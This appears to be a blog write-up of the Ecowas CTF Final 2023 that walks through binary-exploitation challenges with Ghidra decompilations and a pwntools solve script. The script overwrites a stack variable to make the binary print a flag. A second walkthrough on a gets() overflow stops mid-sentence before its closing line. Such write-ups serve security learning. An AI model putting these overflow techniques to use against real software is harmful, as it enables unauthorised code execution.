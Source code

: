 <h1> Ecowas CTF Final 2023 </h1>

Hi, I participated in this ctf final as `@Urahara` playing with team `error` from `Nigeria`

I'll give the solution to some of the challenges that I solved and maybe the ones that doesn't require an instance to connect to since most of them are currently down :(

### Binary Exploitation
- Offset
- Aslr Overflow
- Cookie
- Dep
- Just Login
- Yooeyyeff
- Gigashell
- Leakme
- Chain game

### Boot2Root
- Relay

### Binary Exploitation

#### Offset:

I won't attach the challenge description cause I can't access the CTFd challenge dashboard again too bad :(

Anyways let's get to it

We are given a binary file checking the file type and the protection enabled on it shows this

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1d8eccc2-bbc2-4fc8-9121-b1726fd77fa0)

So we're working with a x64 binary which is dynamically linked and not stripped and from the result of gotten from running checksec we can see that all protections are enabled 💀

I ran it to get an overview of what it does
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/83318517-7330-4eac-b9a9-8f5a9a00e382)

We can see that on running it we're asked for the offset and when i don't get it then some random values are outputted to my screen

In order to solve this need to know what's going on so I decompiled it using Ghidra

Here's the main function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/71ec891e-1e80-44ac-b63a-ffc7ccd801af)

```c

undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 input;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long check;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  input = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  check = 0xcafebabe;
  puts("Do y0u know the right offset?");
  read(0,&input,0x30);
  if (check == 0xdeadbeef) {
    run_command("/bin/cat flag.txt");
  }
  else {
    run_command("/bin/cat /dev/random");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Looking at the pseudo code we can see that it initalizes `0xcafebabe` to variable `check` then after it receives our input the value of `check` is being compared with `0xdeadbeef`

If the comparism returns `True` it calls the function `run_command` passing a command to `cat` the `flag` else it `cat /dev/random`

Checking the function `run_command` shows it just triggers `system` on the parameter passed into the function 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/acae91aa-b1e0-4592-a228-2e16122d1072)

So what now?

We know that we need to make `check` equal `0xdeadbeef` and this can be achieved by simply overwriting the value stored in that variable 

So this is just a basic variable overwrite challenge

The way I got this is by getting the offset from our input to the variable and I just looked at the stack frame on ghidra
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/501b0868-4e92-4d08-a1b8-9f3e34f8f530)

Cool it's `0x38 - 0x18 = 32`

So we just need 32 bytes then pass `0xdeadbeef` (packed in endianess) to overwrite the variable to that

Here's my solve script: [link](https://github.com/h4ckyou/h4ckyou.github.io/blob/main/posts/ctf/ecowas23/final/offset/solve.py)

```python
from pwn import *

# io = process('./offset')
io = remote('0.cloud.chals.io', 19052) 
context.log_level = 'debug'

offset = 32
overwrite = p64(0xdeadbeef)
payload = b'A'*offset + overwrite
io.sendline(payload)

io.interactive()
```

Running it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2ae72425-3122-4786-ac8a-e432c18eeeba)

```
Flag: flag{m4th_i5_imp0rtan7_8ut_n0t_r3ally}
```

#### ASLR Overflow [First Blood 🩸]

On checking the file type and protections enabled on the binary showed this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/81eb19c3-f7a3-42ae-a758-dca7cc17696f)

We are working with a x86 binary which is dynamically linked and not stripped, the only protection not enabled is `Stack Canary`

Running it showed this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7251f490-1db9-492e-9590-4f23e25d6f73)

On running it we get a binary section leak and then it receives our input

I decompiled it usnig Ghidra and here's the main function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/aed297f4-6c39-46fe-bdb4-2ee683146746)

Nothing interesting it just calls the `home` function

Checking the decompiled code shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8538a92d-a20e-465e-b0bb-0e92ed34ccb0)

```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void home(void)

{
  char buffer [32];
  code *leak;
  
  leak = home;
  printf("I moved. My new home address is: %p\nCool?\n",home);
  fflush(stdout);
  gets(buffer);
  return;
}
```

Ok cool

This portion of the binary gives us the address of the `home` function then uses `gets()` to receive our input

So we have a buffer overflow because it is impossible to tell without knowing the data in advance how many characters `gets()` will read, and because `gets()` will continue to store characters past the end of the buffer

What now? 

Looking at the other functions shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2730cd9b-c6dc-4997-b18d-78aaffd2bd2e)

The `get_shell` function looks interesting, checking the decompiled code shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6fbe238a-556c-47cc-825a-46dde26f58bf)

Nice this function would spawn a shell, and since it wasn't called in the main function our goal is to overwrite the `EIP`

The problem here is that PIE is enabled and basically it will randomize the memory address each time it's been run so this means 





This CTF was an interesting one and I meet tons of cool people there 
